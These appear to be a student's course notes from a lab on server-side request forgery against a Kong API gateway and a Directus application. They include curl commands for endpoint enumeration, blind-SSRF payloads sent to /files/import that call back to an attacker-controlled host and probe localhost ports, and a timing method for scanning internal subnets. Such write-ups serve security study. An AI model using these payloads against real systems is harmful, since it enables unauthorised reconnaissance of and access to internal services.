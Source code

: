 # Server-Side Request Forgery 
## Intro to Microservices

Many development teams have moved from monolithic web apps to smaller "micro" web services.  

![image](https://user-images.githubusercontent.com/99839823/222589799-18527f6a-b236-4e2d-9654-bb79e8195965.png)

Microservices provide the basic required functionality without dependencies.  

Microservices are often run in containers and must intercommunicate. Containers and their IPs are ephemeral, so they often use DNS for discover. 

Microservices modules expose their functionality by APIs. When an API is running over HTTP or HTTPS, it is called a web service. The two most common types of web services are SOAP and RESTful.  

An API gateway is used to provide a single entry point for the microservices. 

![image](https://user-images.githubusercontent.com/99839823/222592086-d1a0cb1c-2842-4e40-9b0a-321496fbc23f.png)

The microservices usually don't have their own security controls implemented, so bypassing the API gateway can subvert these controls. 

### References: 
https://en.wikipedia.org/wiki/Microservices  
https://en.wikipedia.org/wiki/SOAP  
https://en.wikipedia.org/wiki/Representational_state_transfer#Applied_to_web_services  
https://microservices.io/patterns/apigateway.html  

## Web Service URL Formats

URLs are often parsed with regular expressions. For example, an API gateway might be configured to send any URI that starts with /user to a specific service. 
### References:
https://bestbuyapis.github.io/api-documentation/#create-your-first-query  
https://www.troyhunt.com/your-api-versioning-is-wrong-which-is/  
https://haveibeenpwned.com/API/v3#Authorisation  
https://docs.github.com/en/rest/overview/resources-in-the-rest-api  
https://apiguide.readthedocs.io/en/latest/build_and_publish/use_RESTful_urls.html  

## API Discovery via Verb Tampering   

RESTful APIs often tie functionality to HTTP request methods, or verbs. So a service might have the same URL perform different actions based on the HTTP request's method.

**HTTP Methods**  
- GET: Retrieves data or object
- POST: Creates data or object
- PUT or PATCH: Updates the data of an existing object
- DELETE: Deletes an object

This is all application specific. A RESTful web service might not perform according to the REST standard. 

Regular enumeration tools normally send GET requests. These tools might miss endpoints that do not respond to GET requests. 

### Initial Enumeration

Start with sending an HTTP request to the API gateway with *curl* 
```bash
curl -i http://apigateway:8000
```

The server responds with kong/2.2.1. Looking at google we can see that the admin API runs on port 8001.  

A connection to this is refused. We'll come back to it later. 

Lets use feroxbuster to enumerate endpoints running on port 8000
```bash
feroxbuster -u http://apigateway:8000 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

I copy and pasted the results into a text file and used the command below to clean it up.

```bash
sort endpoints.txt | cut -d" " -f1 | cut -d "/" -f2 > endpoints_sorted.txt
```

I get these results in Burp Suite intruder. Sort by status code. There are four 401 forbidden results. 

Look through all the results. There is an X-Powered-By header that indicates it is a Directus application. 

There seems to be three distinct endpoints: files, users, and render.

### Advanced Enumeration with Verb Tampering
See `route_buster.py`

We get a different result by fuzzing both get and post requests.

Extra mile: put and patch methods are added to the script, the /users/invite endpoint needs an email to make a valid request.
### References:
https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods  
https://konghq.com/kong/  
https://docs.konghq.com/gateway-oss/2.3.x/admin-api/  
https://directus.io/

## Intro to SSRF
SSRF occurs when an attacker can force an application or server to request data or a resource. 
SSRF can be especially effective against microservices, due to bypassing the security controls of a reverse proxy or an API gateway. 

### SSRF Discovery

Always check *url* parameters in an API or web form for an SSRF vulnerability. 

Send payload and try to request file from local machine:

```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.119.138/ssrftest"}' http://apigateway:8000/files/import
```

check apache log on kali: 
```bash
sudo tail /var/log/apache2/access.log
```
This is an unauthenticated blind ssrf vuln

## Source Code Analysis
**Extra Mile**
Review the source code for `/users/invite`. Determine why it cannot be exploited.

**My answer:**
On line 96 the *.verify* function is used on the java web token. 

## Exploiting Blind SSRF in Directus
Since we get different results based off if the resource is there or not we can infer whether a resource exists.
We get 403 forbidden for a valid resource and 500 internal server error for a resource that doesn't exist.

Try to access ports running on target localhost: 
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://localhost:8000/"}' http://apigateway:8000/files/import
```

If Directus is running on a different server behind the gateway, then "localhost" would refer to the server running Directus, not the server running Kong API Gateway. 

Default port for directus is 8055. 
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://localhost:8055/"}' http://apigateway:8000/files/import
```

#### Exercises
1. Repeat the steps above.
2. Use the SSRF vulnerability to access a non-HTTP service running on your Kali host. What is the result? How might this be useful?
3. Try to identify more error messages. What happens if you request an invalid IP address?
#### Answers
1. Done
2. I started SSH server and checked that I could enumerate that. 
3. Invalid IPs give an appropriate error message. 

## Subnet Scanning with SSRF

Rather than scanning an entire subnet, we can try scanning for network gateways.2 Network designs commonly use a /16 or /24 subnet mask with the gateway running on the IP where the forth octet is ".1" (for example: 192.168.1.1/24 or 172.16.0.1/16).

We can check for valid hosts but closed ports with the following: 
```bash
curl -X POST -H "Content-Type: application/json" -d '{"url":"http://127.0.0.1:6666"}' http://apigateway:8000/files/import -s -w 'Total: %{time_total} microseconds\n' -o /dev/null
```

The request to a closed port is taking me about .25 - .31 seconds. 

When changing the host to a non reachable one, it takes much longer. 

Check ssrf_gaway_scanner.py to see the finished script. 